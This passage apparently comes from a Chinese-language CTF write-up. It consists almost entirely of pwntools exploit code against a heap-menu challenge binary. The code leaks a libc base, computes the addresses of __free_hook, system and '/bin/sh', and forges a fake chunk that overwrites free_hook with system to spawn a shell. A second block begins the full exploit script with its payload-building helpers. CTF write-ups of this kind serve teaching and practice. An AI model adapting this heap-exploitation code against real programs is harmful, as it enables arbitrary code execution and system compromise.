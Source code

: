 ```python
    payload += add(0, 1, 0x60)
    payload += add(0, 8, 0x60)
    payload += dele(0, 2)

    sla("cmd>", payload)

    for i in range(4):
        sl('/bin/sh\x00')
    for i in range(2*8+1):
        sl('a' * 7)

    ru('pos:1,8\n'+'a'*7+'\n')
    blibc = u64(cn.recvuntil('\npos:', True).ljust(8, b'\x00')) + 0x4000000000 - 0x154ad0

    slog['blibc'] = blibc

    hfree  = blibc + 0x156630 
    system = blibc + 0x3f2c8
    binsh  = blibc + 0x128720
    slog['hfree']  = hfree
    slog['system'] = system 
    slog['binsh']  = binsh 

    fakechunk = flat(0, 0, 0, 0x71, hfree)
    sl(fakechunk)
    sl('a')
    sl(p64(system))
```



::: details 完整exp

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
# Copyright © 2020 wlz <wlz@kyria>
#
# Distributed under terms of the MIT license.

from pwn import * 

def op2(op, x, y):
    return op.encode() + p8(x) + p8(y)

def op3(op, x, y, z):
    return op.encode() + p8(x) + p8(y) + p8(z)

def op4(op, x, y, z, a):
    return op.encode() + p8(x) + p8(y) + p8(z) + p8(a)

def map(l, w):
    return op2('M', l, w)

def new(w, l, size, con):
    data.append(con)
    return op4('*', w, l, size&0xff, (size>>8) & 0xff)

def add(w, l, size):
    return op4('*', w, l, size&0xff, (size>>8) & 0xff)

def dele(w, l):
    return op2('/', w, l)
```